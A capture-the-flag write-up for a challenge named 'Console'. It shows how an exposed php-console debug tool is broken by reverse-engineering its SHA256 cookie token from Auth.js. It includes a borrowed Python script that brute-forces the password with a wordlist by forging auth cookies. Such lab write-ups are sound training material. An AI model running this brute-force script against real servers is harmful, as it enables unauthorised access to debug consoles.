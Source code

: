 # Console

So when we launch the challenge and go on the webpage we are greeted with a php info page with something that stands out:

<figure><img src="../../../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

after looking up what was php-console we can see this repository:

{% embed url="https://github.com/barbushin/php-console" %}

So from what i see i need to launch the tool in a chromium browser and it's not in the extension store so i clone the repo of the extension, go in the extension manager and load the unpacked extension and select the php console extension folder, update and we'll be good:

<figure><img src="../../../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption><p>Now we can use it </p></figcaption></figure>

So let's go back on our phpinfo page and refresh it, the extension should prompt us for some sort of password:

<figure><img src="../../../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

I enter test as... a test and nothing seems to change and then i decide to go and see the cookies of our page and see a php-console cookie that was not here before:

<figure><img src="../../../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

So i go and decode the base64 cookie to reveal the interesting content:

<figure><img src="../../../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

So i mess around for some time trying to see how the token is crafted then i try and re input a random password (helloworld) and see that the cookie changes slightly:

<figure><img src="../../../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

publicKey stayes the same but token changes and if a reinput the same password, the token is always the same so the token must be crafted using the password and god knows what other parameters

If we go in the github of the tool and look at the Auth.js file we find exactly what we want:

```javascript
function DomainAuth(domain, publicKey, passwordHash) {

	this.domain = domain;
	this.publicKey = publicKey;
	this.hash = passwordHash;

	this.getAuthToken = function() {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey).toString();
		}
	};

	this.getSignature = function(string) {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey + string).toString();
		}
	};

	this.getClientAuth = function() {
		var token = this.getAuthToken();
		if(token && this.publicKey) {
			return {
				'publicKey': this.publicKey,
				'token': token
			}
		}
	};
}
```

`this.getAuthToken` generates an authentication token by hashing the concatenation of `this.hash` and `this.publicKey` using the **SHA256** algorithm provided by `CryptoJS`

I am very bad with scripts for the moment so i went and got a script from a writeup:

```python
from pwn import *
import requests
import json

url = 'http://83.136.253.73:49889'
wordlist = open('/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt', 'r')
salt = 'NeverChangeIt:)'  # Salt used in hashing
public_key = '370244b500c702b16dddb1678c882d2b7aa0b3bcdf94fb6bb9e792460c5d460b'  # Grab from response header

for count, password in enumerate(wordlist):
    password = password.strip()
    if password:
        # sha256 the password and salt
        hashed_password = sha256sumhex((password + salt).encode())
        # sha256 the hashed password and the public key
        token = sha256sumhex((hashed_password + public_key).encode())

        # Build up a cookie
        php_console_server = 'php-console-server=5;'
        php_console_client = '{"php-console-client":5,"auth":{"publicKey":"' + public_key + '","token":"' + token + '"}}'
        headers = {'Cookie': php_console_server + 'php-console-client=' + b64e(php_console_client.encode())}

        # Send the request and grab PHP console header response
        response = requests.get(url, headers=headers)
        php_console_response = json.loads(response.headers['PHP-Console'])

        # Success?
        if php_console_response['auth']['isSuccess'] != False:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

print("Failed to find correct password :(")
wordlist.close()
```

and after getting the password and inputting it in the php console we were able to get the flag in the header of the app:

<figure><img src="../../../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
